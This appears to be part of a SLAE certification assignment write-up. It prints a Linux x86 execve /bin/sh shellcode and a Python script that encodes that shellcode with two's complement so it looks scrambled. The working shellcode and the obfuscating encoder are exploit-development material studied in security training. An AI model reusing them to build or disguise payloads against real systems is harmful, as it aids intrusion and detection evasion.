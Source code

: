````
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
````
``execve-stack shellcode``

## Encoding the shellcode using a custom schema

The encoding schema created will translate every byte to its two complement byte.

````
#!/usr/bin/python

"""
 Filename:   two_complement_encoder.py
 Author:     Samuel Dugo
 SLAE-ID:    SLAE-1376
 Purpose:    Assignment #5 of SLAE certification. This code will encode a given shellcode using the two's complement method.
"""

import random

shellcode = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")

encoded = ""
encoded2 = ""

print('Encoding shellcode ...')

for x in bytearray(shellcode) :
     bin_int = '{0:08b}'.format(x)
     flipped_bin = '{0:08b}'.format(int(bin_int,2) ^ int(bin(0xFF),2))
     two_complement = '{0:08b}'.format(int(flipped_bin,2) + int('1',2))
     two_complement_hex = hex(int(two_complement,2))
     encoded += '\\x' + ('%02x' % int(two_complement,2))
     encoded2 += two_complement_hex + ','

print('Len: %d' % len(bytearray(shellcode)))
print(encoded)
print(encoded2[:-1])
````
``two_complement_encoder.py``

The output of this script will be a shellcode string with the same length as the original, but the result will seem scrambled.

![](../Images/01_slae_assignment_4.png)
